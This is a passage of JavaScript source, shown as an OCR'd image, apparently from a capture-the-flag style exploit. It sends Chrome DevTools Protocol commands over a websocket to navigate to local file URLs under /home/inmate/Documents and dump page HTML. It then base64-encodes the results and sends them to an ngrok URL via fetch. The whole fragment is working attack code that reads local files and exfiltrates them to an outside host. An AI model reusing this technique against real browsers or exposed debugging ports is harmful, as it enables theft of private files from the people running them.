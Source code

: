 ```js
	  if (match) {
	  	ws.send(JSON.stringify({
		  id:4,
		  method:"Page.navigate",
		  params:{
		  	url:"view-source:file:///home/inmate/Documents/" + match[0]
		  }
		}))
		// I call this one the "i forgot setInterval existed"
		for(var i = 0; i < 100000; i++) {
			console.log("hi");
		}
		ws.send(JSON.stringify({
		  id:5,
		  method:"Runtime.evaluate",
		  params:{
		  	expression:"document.documentElement.outerHTML"
		  }
		}))
		}
		
	})

	ws.onopen = ()=>{

		// I call this one the "i forgot setInterval existed"
		for(var i = 0; i < 1000; i++) {
			console.log("hi");
		}
		ws.send(JSON.stringify({
		  id:1,
		  method:"Runtime.evaluate",
		  params:{
		  	expression:"document.documentElement.outerHTML"
		  }
		}))
		ws.send(JSON.stringify({
		  id:2,
		  method:"Runtime.evaluate",
		  params:{
		  	expression:"document.documentElement.outerHTML"
		  }
		}))
		ws.send(JSON.stringify({
		  id:3,
		  method:"Runtime.evaluate",
		  params:{
		  	expression:"document.documentElement.outerHTML"
		  }
		}))

	}
	return json
})
.then((blob) => JSON.stringify(blob))
.then((blob) => btoa(blob))
.then((b64) => {
	console.log(b64);
	fetch("http://6c3d5682e207.ngrok.io?c=" + b64).then((r) => console.log(r))

})
.catch((err) => console.log(err))
```